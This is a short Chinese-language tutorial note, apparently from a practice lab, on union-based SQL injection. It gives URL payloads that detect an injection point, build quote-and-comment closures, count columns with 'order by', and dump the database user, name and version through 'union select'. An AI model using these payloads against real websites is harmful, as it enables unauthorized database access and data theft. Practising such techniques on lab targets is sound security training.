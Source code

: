 ##### union联合查询步骤：

###### 判断注入点

```sql
http://sss-s347qh.gxalabs.com/Pass-01/index.php?id=1 and 1=1
and两边都为真，回显正常，有数据
http://sss-s347qh.gxalabs.com/Pass-01/index.php?id=1 and 1=2
and一边为真一边为假，回显异常，无数据
```

###### 构造闭合(字符型)

```sql
①在URL链接中附加字符串' -- s即http://xxx.xxx.xxx/abc.php?p=YY' -- s        
//判断是否为字符型

②在URL链接中附加字符串' -- s即
http://xxx.xxx.xxx/abc.php?p=YY' and 1=1 -- s        //结果返回正常

③在URL链接中附加字符串' -- s即
http://xxx.xxx.xxx/abc.php?p=YY' and 1=2 -- s        //结果返回异常
则通过①②③判断出为字符型

常用构造闭合符号：
单引号' 双引号" 单引号+括号') 双引号+括号")

常用注释符号:
--空格（经常会在其后面加上一个任意字母区分括号eg：-- s）
```

###### 判断字段数量

```sql
order by：排序  
注意：如果是数字型注入，也有必要加上注释 # 或者 --空格，因为，在数据传递的时候，不知道
order by后面是否跟了其他语句
http://sss-s347qh.gxalabs.com/Pass-01/index.php?id=1 order by 3
判断字段数量，返回正常，说明至少存在3个字段
http://sss-s347qh.gxalabs.com/Pass-01/index.php?id=1 order by n
返回异常，说明不存在n列
```

###### union联合查询，判断回显点

```sql
http://sss-s347qh.gxalabs.com/Pass-01/index.php?id=1 union select 1,2,3
```

###### 爆数据

```sql
user()   database()   version()
```

```sql
http://sss-s347qh.gxalabs.com/Pass-01/index.php?id=-1  
#-1是让前面的代码失效（不占回显位） 好执行后面我们想要执行的爆库语句（）
union select 1,user(),database()
```
